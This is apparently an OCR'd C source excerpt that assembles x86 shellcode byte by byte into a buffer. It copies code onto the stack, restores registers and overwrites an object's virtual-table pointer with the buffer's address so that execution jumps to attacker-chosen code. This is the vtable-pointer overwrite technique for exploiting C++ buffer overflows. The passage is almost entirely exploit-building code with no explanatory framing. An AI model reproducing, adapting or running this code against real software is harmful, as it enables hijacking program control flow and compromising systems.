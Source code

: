  CBuf[i++]='\x31';CBuf[i++]='\xC9';                  //xorl %ecx,%ecx
 CBuf[i++]='\xB1';CBuf[i++]=StackCodeSize;           //movb $StackCodeSize,%cl

 CBuf[i++]='\xBE';                   //movl $BufferAddress+$StackCodeOffset,%esi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+StackCodeOffset;i=i+4; 

 CBuf[i++]='\x89';CBuf[i++]='\xEF';                  //movl %ebp,%edi
 CBuf[i++]='\x29';CBuf[i++]='\xCF';                  //subl %ecx,%edi
 CBuf[i++]='\x89';CBuf[i++]='\xFA';                  //movl %edi,%edx
 
 CBuf[i++]='\xF3';CBuf[i++]='\xA4';           //repz movsb %ds:(%esi),%es:(%edi)

 CBuf[i++]='\xFF';CBuf[i++]='\xE2';                  //jmp *%edx (stackcode)

 //stackcode:
 
 CBuf[i++]='\xBE';                   //movl $BufferAddress+$NewBufferOffset,%esi
 
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+NewBufferOffset;i=i+4; 
 CBuf[i++]='\xBF';                                   //movl $BufferAddress,%edi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress;i=i+4; 
 CBuf[i++]='\x31';CBuf[i++]='\xC9';                  //xorl %ecx,%ecx
 CBuf[i++]='\xB1';CBuf[i++]=NewBufferSize;           //movb $NewBufferSize,%cl
 CBuf[i++]='\xF3';CBuf[i++]='\xA4';           //repz movsb %ds:(%esi),%es:(%edi)

 CBuf[i++]='\x30';CBuf[i++]='\xC0';                  //xorb %al,%al
 CBuf[i++]='\xAA';                                   //stosb %al,%es:(%edi)

 CBuf[i++]='\xBF';                        //movl $BufferAddress+$VPTROffset,%edi
 LBuf=(unsigned long*)&CBuf[i];*LBuf=BufferAddress+VPTROffset;i=i+4; 
 CBuf[i++]='\xB8';                                   //movl $VTABLEAddress,%eax
 LBuf=(unsigned long*)&CBuf[i];*LBuf=VTABLEAddress;i=i+4; 
 CBuf[i++]='\x89';CBuf[i++]='\xC3';                  //movl %eax,%ebx
 CBuf[i++]='\xAB';                                   //stosl %eax,%es:(%edi)

 CBuf[i++]='\xB0';CBuf[i++]=LastByte;                //movb $LastByte,%al
 CBuf[i++]='\xAA';                                   //stosb %al,%es:(%edi)

 CBuf[i++]='\x8B';CBuf[i++]='\x43';
 CBuf[i++]=(char)4*IAddress;                       //movl $4*Iaddress(%ebx),%eax

 CBuf[i++]='\x9D';                                   //popf
 CBuf[i++]='\x5B';                                   //popl %ebx
 CBuf[i++]='\x59';                                   //popl %ecx
 CBuf[i++]='\x5A';                                   //popl %edx
 CBuf[i++]='\x5E';                                   //popl %esi
 CBuf[i++]='\x5F';                                   //popl %edi

 CBuf[i++]='\x89';CBuf[i++]='\xEC';                  //movl %ebp,%esp
 CBuf[i++]='\x5D';                                   //popl %ebp
 
 CBuf[i++]='\xFF';CBuf[i++]='\xE0';                  //jmp *%eax
 
 memcpy(&CBuf[NewBufferOffset],NewBuffer,(unsigned long)NewBufferSize);
  //insert the new string into the buffer
 
 LBuf=(unsigned long*)&CBuf[VPTROffset];
 *LBuf=BufferAddress; //address of our VTABLE
